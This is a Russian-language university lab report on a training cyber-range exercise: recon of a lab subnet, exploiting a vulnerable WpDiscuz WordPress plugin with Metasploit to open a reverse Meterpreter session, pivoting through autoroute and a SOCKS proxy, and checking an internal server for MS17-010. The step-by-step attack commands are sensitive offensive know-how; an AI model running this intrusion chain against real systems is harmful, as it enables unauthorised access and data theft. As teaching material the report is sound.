<div align="center">

**РОССИЙСКИЙ УНИВЕРСИТЕТ ДРУЖБЫ НАРОДОВ**

Факультет физико-математических и естественных наук  
Кафедра теории вероятностей и кибербезопасности

<br><br><br>

# ЛАБОРАТОРНАЯ РАБОТА № 4

### на тему

## «Захват backup-сервера»

**38.03.05 — Кибербезопасность в экономике**

<br><br><br>

**Выполнили:**  
Студенты группы НБИбд-01-23

Карпачев Ярослав  
Камалиева Лия  
Дашкина Анита  
Тураева Оиша  
Кузнецова Александра  
Дрожжанова Алена

<br><br><br>

**Москва — 2026**

</div>

---

# Цель работы

Изучить методы разведки внешнего и внутреннего сегментов сети, выявления уязвимостей веб-приложений, организации доступа к внутренним ресурсам через промежуточный узел, а также проверки защищённости службы SMB. В рамках сценария учебного киберполигона **Ampire** необходимо обнаружить выделенный сервер резервного копирования (backup-сервер) во внутреннем сегменте организации и получить флаг, размещённый в каталоге `C:\Windows\Temp`.

**Примечание о полноте результатов:** представленные скриншоты подтверждают выполнение разведки, получение сеанса Meterpreter, настройку доступа во внутреннюю сеть, обнаружение backup-сервера и положительную проверку признаков **MS17-010**. Скриншотов успешной эксплуатации MS17-010 и чтения файла с флагом в предоставленном архиве нет. Поэтому последний этап описан отдельно как предусмотренный методическим сценарием, а не как подтверждённый результат выполнения.

# Введение. Актуальность

Серверы резервного копирования являются важными элементами информационной инфраструктуры организации. На них могут храниться резервные копии документов, баз данных и конфигураций информационных систем. Несанкционированный доступ к таким узлам создаёт угрозу утечки данных, нарушения целостности резервных копий и невозможности восстановления систем после инцидента.

Особую опасность представляет ситуация, при которой сервер резервного копирования не доступен напрямую из внешней сети, но может быть достигнут через ранее скомпрометированный хост. Уязвимости внешнего веб-портала могут использоваться как первоначальная точка входа, после чего злоумышленник проводит разведку внутренней сети и ищет дополнительные цели.

В лабораторной работе исследуется цепочка, включающая обнаружение веб-портала на **WordPress**, эксплуатацию уязвимого плагина **WpDiscuz** в изолированном учебном сценарии, настройку маршрутизации и прокси-сервера, сканирование внутренних узлов и проверку уязвимости **MS17-010 (EternalBlue)** на предполагаемом backup-сервере.

# Задачи

В ходе выполнения лабораторной работы необходимо:

1. Изучить сетевую схему сценария и исходные ограничения.
2. Провести разведку доступного внешнего сегмента и определить адрес корпоративного веб-портала.
3. Настроить разрешение имени портала через файл `/etc/hosts`.
4. Исследовать WordPress и выявить установленный уязвимый плагин WpDiscuz.
5. Получить и проверить Meterpreter-сессию с промежуточным Linux-узлом.
6. Определить адресацию внутреннего сегмента и обнаружить активные хосты.
7. Настроить маршрутизацию и SOCKS-прокси для исследования внутренней сети.
8. Идентифицировать сервер резервного копирования по набору доступных сетевых служб.
9. Проверить backup-сервер на наличие уязвимости MS17-010.
10. Изучить предусмотренный методикой порядок поиска флага в каталоге `C:\Windows\Temp`.

# Выполнение лабораторной работы

## 1. Ознакомление со сценарием и целевой инфраструктурой

Согласно заданию учебного полигона **Ampire**, во внутренней сети организации расположен выделенный **backup-сервер**. Требуется найти этот узел, определить возможный вектор компрометации и получить флаг из каталога `C:\Windows\Temp`.

В методических материалах указаны следующие исходные условия:

- **Внешняя целевая подсеть:** `195.239.174.0/24`.
- **Ограничение:** запрещено атаковать IP-адрес `195.239.174.12`.
- **Внутренняя подсеть, обнаруженная при исследовании:** `10.10.10.0/24`.
- **Первоначально доступный веб-узел:** `195.239.174.25`.
- **Выявленный backup-сервер:** `10.10.10.5`.

Исходная схема предусматривает двухэтапную работу: сначала получить доступ к промежуточному серверу, затем использовать его сетевую доступность для исследования узлов во внутреннем сегменте. В данной работе в качестве промежуточной цели выбран корпоративный сайт на Linux.

## 2. Разведка внешнего сегмента сети

Перед дальнейшим исследованием выполнено сканирование доступных сетевых служб с помощью **Nmap**. Для определения открытых портов и версий ПО использовались параметры `-sV` и `-sC`:

```bash
nmap -sV -sC 195.239.174.0/24
```

Параметр `-sV` предназначен для определения версий обнаруженных сервисов, а `-sC` запускает стандартный набор NSE-скриптов. В ходе изучения результатов внимание было уделено хосту `195.239.174.25`, на котором открыт TCP-порт **80** с веб-сервером **Apache httpd 2.4.29 (Ubuntu)**.

В ответе HTTP также присутствует перенаправление на доменное имя `portal.ampire.corp`. Следовательно, для дальнейшего анализа веб-приложения необходимо обеспечить разрешение этого имени на исследовательской машине Kali Linux.



*Рисунок 1 — Обнаружение веб-портала на узле 195.239.174.25 средствами Nmap.*

## 3. Добавление статической записи в файл /etc/hosts

Поскольку требуемое доменное имя не разрешается автоматически, была использована статическая запись в локальном файле `/etc/hosts`. Этот файл позволяет указать соответствие IP-адреса и имени узла без обращения к внешнему DNS-серверу.

Добавлена строка:

```text
195.239.174.25 portal.ampire.corp
```

Для редактирования файла применялся текстовый редактор в Kali Linux:

```bash
sudo nano /etc/hosts
```

После сохранения записи доменное имя `portal.ampire.corp` стало сопоставляться с IP-адресом `195.239.174.25` на локальной исследовательской машине.



*Рисунок 2 — Добавление доменного имени корпоративного портала в файл /etc/hosts.*

## 4. Анализ CMS WordPress с помощью Metasploit

Исследуемый веб-портал работает на **WordPress**. Для определения установленных компонентов и поиска потенциально уязвимых расширений использован **Metasploit Framework**.

В консоли Metasploit выполнен поиск модуля сканирования WordPress:

```text
search wordpress scanner
```

В полученном списке найден модуль `auxiliary/scanner/http/wordpress_scanner`, предназначенный для сбора сведений о конфигурации WordPress и его дополнениях.



*Рисунок 3 — Поиск модуля для сканирования WordPress в Metasploit.*

Для выбора найденного модуля и просмотра доступных параметров выполнены команды:

```text
use 40
options
```

Номер `40` соответствует положению модуля в конкретном выводе поиска и может отличаться при другой версии Metasploit. Главное — выбрать модуль `auxiliary/scanner/http/wordpress_scanner`.



*Рисунок 4 — Настройки сканера WordPress и обязательные параметры модуля.*

Для проверки веб-портала задаётся параметр `RHOSTS`, после чего запускается сканирование:

```text
set RHOSTS portal.ampire.corp
run
```

По результатам сканирования выявлена версия **WordPress 5.8.2** и следующие установленные плагины:

| Плагин | Обнаруженная версия |
| --- | --- |
| Duplicator | 1.3.26 |
| Elementor | 3.11.0 |
| WpDiscuz | 7.0.2 |
| WP Essential | 5.7.1 |
| WP File Manager | 7.1.2 |

Особое внимание привлекло дополнение **WpDiscuz 7.0.2**, поскольку выбранный в дальнейшем модуль Metasploit предназначен для версий **ниже 7.0.5**. Само наличие версии из уязвимого диапазона указывает на потенциальный риск и требует проверки в условиях учебного задания.



*Рисунок 5 — Обнаружение версии WordPress и установленных плагинов, включая WpDiscuz 7.0.2.*

## 5. Эксплуатация уязвимости WpDiscuz в учебном сценарии

Для получения сетевого доступа к промежуточному серверу в рамках лабораторного полигона выбран модуль Metasploit:

```text
exploit/unix/webapp/wp_wpdiscuz_unauthenticated_file_upload
```

Поиск модуля и отображение его параметров выполнены командами:

```text
search wordpress exploit wp_wpdiscuz
use 0
options
```

Модуль использует возможность небезопасной загрузки файла через уязвимую версию плагина WpDiscuz. Для него необходимы адрес веб-узла (`RHOSTS`), путь к публикации с возможностью комментирования (`BLOGPATH`) и адрес машины, принимающей обратное подключение (`LHOST`).



*Рисунок 6 — Выбор модуля WpDiscuz и анализ его обязательных параметров.*

В выполненном задании указаны следующие настройки:

```text
set RHOSTS 195.239.174.25
set BLOGPATH /index.php/2021/07/26/hello-world/
set LHOST 195.239.174.11
run
```

В выводе Metasploit зафиксированы положительная автоматическая проверка уязвимости, загрузка полезной нагрузки и создание сеанса **Meterpreter session 1**. Соединение установлено от целевого узла `195.239.174.25` к машине `195.239.174.11`.




*Рисунок 7 — Получение Meterpreter-сессии после запуска модуля WpDiscuz.*

## 6. Проверка и повышение стабильности Meterpreter-сессии

После получения доступа выполнена проверка сведений об операционной системе:

```text
sysinfo
```

В результатах указано:

- **Имя системы:** `portal`.
- **Операционная система:** Linux (Ubuntu), ядро `4.15.0-173-generic`.
- **Архитектура:** `x64`.
- **Тип исходной сессии:** `php/linux`.
- **Контекст пользователя:** `www-data`.

Исходная сессия использует PHP-полезную нагрузку. Для дальнейшего взаимодействия с внутренней сетью был запущен механизм повышения функциональности сеанса Metasploit:

```text
bg
sessions -u 1
sessions
```




*Рисунок 8 — Проверка параметров промежуточного сервера и появление второй Meterpreter-сессии.*

## 7. Определение адресации внутренней сети

Для перехода к исследованию внутренней инфраструктуры выполнено переключение на новую сессию и получение информации о сетевых интерфейсах:

```text
sessions 2
ipconfig
```

На интерфейсе `ens3` промежуточного Linux-сервера обнаружен внутренний IP-адрес **`10.10.10.25`** с маской **`255.255.255.0`**. Таким образом, узел подключён к сети `10.10.10.0/24` и может использоваться как точка доступа к её ресурсам в рамках учебного сценария.



*Рисунок 9 — Проверка интерфейса ens3 и внутреннего адреса 10.10.10.25.*

Далее были выведены маршруты и запущено обнаружение доступных узлов внутренней сети:

```text
route
run post/multi/gather/ping_sweep RHOSTS=10.10.10.0/24
arp
```

Команда `route` показала маршрут к сети `10.10.10.0/24` через интерфейс `ens3`. Модуль **Ping Sweep** обнаружил ряд адресов, в том числе `10.10.10.5`, `10.10.10.10`, `10.10.10.15`, `10.10.10.20`, `10.10.10.21`, `10.10.10.25`, `10.10.10.30`, `10.10.10.40`, `10.10.10.45`, `10.10.10.55` и `10.10.10.254`.

Результаты дополнительно проверены через ARP-таблицу, которая содержит соответствия IP-адресов и MAC-адресов обнаруженных устройств. На этом этапе составлен перечень потенциальных целей для последующего определения их серверных ролей.



*Рисунок 10 — Сканирование подсети 10.10.10.0/24 и просмотр ARP-таблицы.*

## 8. Настройка маршрутизации и SOCKS-прокси

Для обращения к внутренним хостам из среды Kali Linux через промежуточный узел настроена маршрутизация Metasploit и локальный **SOCKS-прокси**.

В рамках Meterpreter-сессии создан маршрут в сеть `10.10.10.0/24`:

```text
run autoroute -s 10.10.10.0/24
```

После этого таблица Metasploit содержит маршрут `10.10.10.0/24`, связанный с **сессией № 2**. Это позволяет использовать промежуточный узел как транспорт для сетевых проверок.

В консоли Metasploit запущен модуль прокси-сервера:

```text
bg
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
run
jobs
```

Запуск подтверждён сообщением о старте SOCKS-сервера и наличием фонового задания `Auxiliary: server/socks_proxy` в списке `jobs`.



*Рисунок 11 — Маршрут к внутренней сети через Meterpreter и запуск SOCKS-прокси в Metasploit.*

Для корректной работы сетевых утилит через прокси требуется согласовать его адрес и порт с файлом `/etc/proxychains4.conf`. В методических материалах для этого приведён пример SOCKS-прокси на локальном адресе `127.0.0.1` и порту `1080`. Наличие фонового задания подтверждено скриншотом; содержимое файла конфигурации отдельно в архиве не показано.

## 9. Поиск и идентификация backup-сервера

После настройки маршрутизации выполнено исследование открытых TCP-портов внутренних узлов с использованием `proxychains` и `netcat`. Приоритет отдавался службе **SMB**, поскольку сервер резервного копирования часто предоставляет сетевой доступ к файлам.

Для проверки хоста `10.10.10.5` использована команда:

```bash
proxychains nc -zv 10.10.10.5 21-500 2>&1 | grep -E 'open'
```

Параметр `-z` включает проверку доступности портов без отправки прикладных данных, `-v` активирует подробный вывод. По результатам выявлены следующие открытые TCP-порты:

| Порт | Служба | Предполагаемое назначение |
| ---: | --- | --- |
| 21 | FTP | Передача файлов |
| 80 | HTTP | Веб-интерфейс или веб-служба |
| 135 | RPC | Удалённое взаимодействие со службами Windows |
| 139 | NetBIOS | Сетевые службы Windows |
| 445 | SMB | Общий доступ к файлам и папкам |

Набор портов `135`, `139` и `445` характерен для Windows-сервера, предоставляющего сетевые службы. Наличие **FTP** и **SMB** дополнительно согласуется с возможной ролью файлового хранилища. С учётом сведений методической схемы хост `10.10.10.5` определён как искомый **backup-сервер**.



*Рисунок 12 — Открытые порты 21, 80, 135, 139 и 445 на узле 10.10.10.5.*

## 10. Проверка уязвимости MS17-010 (EternalBlue)

После обнаружения backup-сервера выполнена проверка доступной службы SMB на наличие уязвимости **MS17-010**, связанной с обработкой сетевых запросов в ряде версий Windows.

 Затем выполнялось переключение в основную консоль Metasploit и выбор соответствующего вспомогательного сканера:

```text
bg
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 10.10.10.5
run
```

Сканер сообщил:

```text
10.10.10.5:445 - Host is likely VULNERABLE to MS17-010!
```

Дополнительно он определил операционную систему как **Windows Server 2016 Standard 14393 x64**. На скриншоте отражён результат автоматической проверки. Формулировка `likely VULNERABLE` означает **высокую вероятность наличия уязвимости по сигнатуре сканера**



*Рисунок 13 — Результат сканирования SMB на хосте 10.10.10.5: обнаружены признаки уязвимости MS17-010.*

## 11. Получение флага по методическому сценарию

Заключительным этапом, предусмотренным методическими материалами, является эксплуатация обнаруженной уязвимости MS17-010 и изучение содержимого каталога `C:\Windows\Temp` на backup-сервере. В пособии для этого показан модуль **`ms17_010_psexec`**, после применения которого должна появиться сессия Meterpreter с целевым Windows-узлом.

В случае успешного получения такой сессии для проверки целевой директории методика предлагает следующие команды:

```text
ls C:/Windows/Temp
cat C:/Windows/Temp/flag.txt
```


# Результаты

По материалам выполнения лабораторной работы получены следующие результаты:

1. Проведена разведка внешней подсети; обнаружен веб-портал на узле `195.239.174.25`, использующий Apache.
2. В файл `/etc/hosts` добавлено соответствие `195.239.174.25` и `portal.ampire.corp`.
3. Средствами Metasploit обнаружены WordPress 5.8.2 и пять установленных плагинов, включая WpDiscuz 7.0.2.
4. В рамках учебного сценария выполнена проверка уязвимого плагина WpDiscuz; зафиксировано открытие Meterpreter-сессии.
5. Получена дополнительная Meterpreter-сессия для взаимодействия с Linux-сервером.
6. Установлены внутренний адрес промежуточного узла `10.10.10.25` и адресация сегмента `10.10.10.0/24`.
7. Выполнено обнаружение внутренних хостов, просмотр ARP-таблицы и настройка маршрута через сеанс Meterpreter.
8. Запущен SOCKS-прокси для сетевых проверок из Kali Linux.
9. На узле `10.10.10.5` обнаружены открытые порты 21, 80, 135, 139 и 445, что позволило идентифицировать его как backup-сервер.
10. Сканер Metasploit выдал предупреждение о вероятной уязвимости хоста `10.10.10.5` к MS17-010.
11. Финальный этап — извлечение флага из `C:\Windows\Temp` — описан в пособии, но **не подтверждён приложенными изображениями**.

# Заключение

В ходе лабораторной работы изучена последовательность действий по обнаружению сервера резервного копирования, находящегося во внутреннем сегменте корпоративной сети. На практике отработаны разведка сетевых служб, анализ компонентов WordPress, получение доступа к промежуточному узлу в учебном полигоне, исследование сетевых интерфейсов, настройка маршрутизации и прокси-сервера.

В результате был найден backup-сервер `10.10.10.5`. Проверка его SMB-службы показала признаки уязвимости **MS17-010**, которая может представлять серьёзную угрозу для конфиденциальности, целостности и доступности резервных копий. При этом само сообщение сканера не равнозначно подтверждённой успешной эксплуатации.

В качестве защитных мер для корпоративной инфраструктуры рекомендуется своевременно обновлять Windows и сетевые службы, ограничивать доступ к SMB и FTP, сегментировать внутреннюю сеть, контролировать доступность серверов резервного копирования и отслеживать попытки нестандартных подключений между узлами.

**Итог:** разведка и обнаружение уязвимого backup-сервера документально подтверждены 13 предоставленными скриншотами. Для полного подтверждения достижения конечной цели сценария необходимо приложить результат получения флага.

---


